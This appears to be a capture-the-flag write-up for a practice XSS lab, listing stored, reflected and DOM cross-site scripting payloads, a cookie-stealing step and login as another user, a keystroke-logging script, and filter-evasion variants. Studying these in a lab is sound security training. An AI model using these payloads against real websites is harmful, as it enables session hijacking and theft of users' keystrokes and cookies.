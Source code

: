 # Stored XSS

1. Add html comment
   ```html
   <h1>HTML comment</h1>
   ;
   ```
2. Alert popup with cookie
   ```html
   <script>
     alert(document.cookie);
   </script>
   ```
3. Change XSS Playground to "I am a hacker"
   ```html
   <script>
     document.getElementById("thm-title").innerHTML = "I am a hacker";
   </script>
   ```
4. Steal Jack's cookie
   ```html
   <img src="javascript:'/log/' + document.cookie" />
   ```
5. Use a cookie manager plugin on firefox to login as Jack

# Reflected XSS

1. Create a popup that says hello
   ```html
   <script>
     alert("Hello");
   </script>
   ```
2. Create a popup with my IP address
   ```html
   <script>
     alert(window.location.hostname);
   </script>
   ```

# DOM XSS

1. Alert document cookie
   - test" "onmouseover=alert(document.cookie)
2. Create _onhover_ event that changes the background color to red
   - test" onmouseover="document.body.style.background='red'

# XSS Key Logger

```html
<script>
  document.onkeypress = function (e) {
    fetch("/log/" + e.key);
  };
</script>
```

# Filter Evasion

1. ```html
   <img src="test" onmouseover="alert('Hello')" />
   ```

2. ```html
   <!-- Using the eval function does not seem to work -->
   <img src="test" onmouseover="confirm('Hello')" />
   ```

3. ```html
   <!-- Embed another hello in there -->
   <img src="test" onmouseover="alert('HHelloello')" />
   ```

4. ```html
   <!-- Replace only replaces the first occurence unless a regex with global flag is used -->
   <img src="test" onmouseoveronmouseover="alert('HHelloello')" />
   ```
